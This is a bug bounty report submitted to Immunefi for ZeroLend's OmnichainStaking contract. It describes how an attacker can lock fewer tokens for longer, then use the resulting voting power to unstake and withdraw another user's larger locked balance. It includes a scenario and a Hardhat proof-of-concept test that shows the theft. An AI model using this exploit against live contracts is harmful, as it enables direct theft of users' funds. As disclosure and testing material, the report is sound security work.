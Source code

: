 
# Attacker can steal locked balance of staked nft at OmnichainStaking

Submitted on Tue Mar 05 2024 22:05:14 GMT-0400 (Atlantic Standard Time) by @MahdiKarimi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29062

Report type: Smart Contract

Target: https://github.com/zerolend/governance

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties

## Description
## Brief/Intro
The OmnichainStaking's unstake function allows anyone to unstake any token by just burning associated voting power, since voting power is based on locked balance and lock duration so two different NFTS with different locked balances can have the same amount of power which allows an attacker to exchange an NFT with some locked balance for an NFT with more locked balance and shorter lock duration. 
The attacker can mint a tokenLocker NFT by locking some tokens for a long duration, stake it at OmnichainStaking to receive voting power, and use minted voting power to Unstake another NFT ( staked by another user ) with more locked balance and shorter lock duration from OmnichainStaking.
## Vulnerability Details
Users can utilize TokenLocker to create a lock by staking a certain amount of Zero tokens for a specified duration. TokenLocker then generates a unique NFT that represents the locked amount and the duration of the lock. Each NFT has a power value, calculated based on the locked amount and duration; more tokens and a longer lock duration contribute to a higher power. Users can stake these NFTs at OmnichainStaking contract and receive voting power proportional to the power of the TokenLocker NFT, OmnichainStaking has an unstakeToken function that allows anyone to unstake a token by burning the amount of voting power associated with that NFT.
users can receive the same amount of voting power by locking different amounts of Zero tokens due to different durations, this creates a situation that enables attackers to lock some amount of tokens for a long duration to receive voting power and use that voting power to unstake a tokenLocker NFT with more locked balance and lower lock duration.

Consider the following scenario : 
1 - Alice creates a lock with 40 Zero tokens for two years 
2 - Alice transfers minted NFT to omnichainStakign to receive voting power 
3 - Bob creates a lock with 20 Zero tokens for four years 
4 - Alice and Bob would receive the same amount of voting power ( both NFTs have the same power) 
5 - Bob Unstakes NFT of Alice from omniChainStaking ( he has enough voting power since both NFTs have minted the same voting power)
6 - Now Bob has an NFT representing 40 tokens locked for two years while he staked 20 tokens for 4 years. 
7 - Now Alice is forced to Unstake Bob's NFT which has 20 locked balances and has been locked for 4 years, he lost 20 tokens .

## Impact Details
Attackers can steal the locked balance of other users which is direct theft of funds. 
Also users can be forced to stake for a longer time.
## References
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L147
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L112-L116
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L362-L364
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/OmnichainStaking.sol#L68-L70
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/OmnichainStaking.sol#L76-L79

        
## Proof of concept
## Proof of Concept
```
  describe("attacker can drain staked amount of tokenLocker", () => {
    it("attacker can drain staked amount of tokenLocker", async function () {

    // impoerted whale address from goverancne deployment 
    // imported time from hardhat-network-helpers 
    // transferred 20 zero token to whale and 40 zero token to ant address during deployment 
    // removed vesting part from beforeEach 

    let fourYearInSeconds = 124416000;
    let twoYearInSeconds = 62208000;

    // attacker (whale) has 20 Zero tokens
    let balanceOfAttackerBefore = await zero.balanceOf(whale);
    expect(balanceOfAttackerBefore).eq(20n * e18);
    
    // Victim (ant) creates a lock with 40 Zero tokens for duration of 2 years 
    // ant transferrs minted nft to OmnichainStaking and receives power 
    zero.connect(ant).approve(locker.target, 40n * e18);
    await locker.connect(ant).createLock(40n * e18, twoYearInSeconds, false);
    await locker.connect(ant)["safeTransferFrom(address,address,uint256)"](ant.address, omniStaking.target, 1);

    // whale creates a lock with 20 Zero tokens but for duration of 4 years 
    // he transferrs minted nft to OmnichainStaking 
    // despite that he has locked half of ant address but due to more lock duration (2 times of ant) he would receive almost same amount of power 
    zero.connect(whale).approve(locker.target, 20n * e18);
    await locker.connect(whale).createLock(20n * e18, fourYearInSeconds, false);
    await locker.connect(whale)["safeTransferFrom(address,address,uint256)"](whale.address, omniStaking.target, 2);

    // we can assert that whale has more power than ant 
    let balanceWhale = await omniStaking.balanceOf(whale.address);
    let balanceAnt = await omniStaking.balanceOf(ant.address);
    expect(balanceWhale).greaterThanOrEqual(balanceAnt);

    // whale can unstake minted nft of ant from tokenLocker since he has enough power 
    // this nft has two times more lockedBalance 
    await omniStaking.connect(whale).unstakeToken(1);

    // after 2 years he can withdraw this token from locker 
    // Now whale has 40 Zero token balance 
    // so ant address should use his voting power to other token with 20 Zero balance and 4 years of lock duration

    await time.increase(twoYearInSeconds);
    await locker.connect(whale).withdraw(1);
    let balanceOfAttacker = await zero.balanceOf(whale);
    expect(balanceOfAttacker).eq(40n * e18);


    });
    
  });
```